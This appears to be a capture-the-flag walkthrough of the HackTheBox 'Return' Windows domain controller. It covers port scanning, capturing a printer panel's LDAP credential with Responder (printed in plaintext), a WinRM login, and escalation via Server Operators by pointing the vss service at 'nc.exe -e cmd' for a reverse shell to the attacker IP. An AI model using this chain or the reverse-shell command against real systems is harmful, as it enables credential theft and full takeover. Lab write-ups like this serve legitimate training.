Nmap scan

```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.129.95.241
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-06 01:09 CDT
Nmap scan report for 10.129.95.241
Host is up (0.17s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49694/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.58 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49674,49675,49678,49681,49694 10.129.95.241                                                                                                                                                                  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-06 01:12 CDT                                                                                                    
Nmap scan report for 10.129.95.241
Host is up (0.17s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-06 06:31:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-04-06T06:32:05
|_  start_date: N/A
|_clock-skew: 18m34s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.36 seconds
```

Now, lets try using the smbclient and smbmap tools using a null session due to we do not have valid credentials:



Nothing… it seems that we won’t find any interesting data here, let’s move forward with the 80 port.



we found a printer admin panel… it catches my attention. Exploring the web, if we go to the “Settings” section, we will find interesting data that we can modify:



If we validate the web-code, we identify that the password is hidden.



This is a dashboard of a printer, These devices retain LDAP and SMB credentials to enable the printer to retrieve user lists from Active Directory and save scanned files to a user’s drive. Configuration pages usually provide options to specify the domain controller or file server. Let’s set up a listener on port 389 (LDAP) with a responder and input our tun0 IP address in the Server address field.



**Starting responder on the tun0 interface to listen for incoming traffic**



We submitted the form with our own IP in "Server Address" field.



**LDAP response has been captured with the help of the responder**



`return\svc-printer : 1edFg43012!!`

We can now list shared resources at the network level using this credential,  
or better, knowing that winrm is exposed, validate if the credential is valid at the Remote Management Users level.





Do you know what it means this, right? we are in and evil-winrm will be our ally. Captured the user flag.



### Privilege Escalation

We validate the priv we have:



We have the SeLoadDriverPrivilege privilege — We have a potential path to scale

Now we validate the groups to which we belong taking into account that there are some groups in Windows that we can take advantage of to execute privileged actions.



We found the server operators group, researching on google, we found that we can run and stop services on the machine, great, eh?

Here comes the move, we will upload nc to the victim machine, after that we will create a simple service that makes a call to nc in order to obtain a privileged shell.

First, we upload nc.exe to the victim machine using the upload command

After that, using sc.exe we create a service called reverse that, when started, runs nc.exe pointing to our attacker machine.



`sc.exe create reverse binPath="<C:\Users\svc-printer\Desktop\nc.exe> -e cmd 10.10.14.140 4444"`

We got access denied.

**Modifying the vss service (deafult service) binary BinPath to the netcat binary so that when the service is started again the modified binary would get execute resulting in a reverse shell with admin privileges**

`sc.exe config vss binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.140 4444"`

We can check. whether our new path has set or not.
`sc.exe qc vss`



First, we will stop the modified service.
`sc.exe stop vss`



Then, we'll start the service again. Before that we'll start our listener.
`sc.exe start vss`



We received the shell as administrator.



Reference links :

https://medium.com/@4zer7y/hackthebox-return-walkthrough-b69220048206

https://medium.com/@josephalan17201972/hackthebox-return-write-up-d71cb7ae5676

https://0xdf.gitlab.io/2022/05/05/htb-return.html
